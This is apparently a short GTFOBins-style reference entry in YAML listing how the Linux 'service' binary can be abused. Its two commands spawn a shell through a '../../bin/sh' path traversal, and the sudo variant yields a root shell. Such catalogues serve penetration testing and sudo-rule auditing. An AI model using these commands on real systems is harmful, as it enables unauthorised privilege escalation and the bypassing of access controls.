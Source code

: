 ```yaml
---
functions:
  shell:
    - code: /usr/sbin/service ../../bin/sh
  sudo:
    - code: sudo service ../../bin/sh
---
```

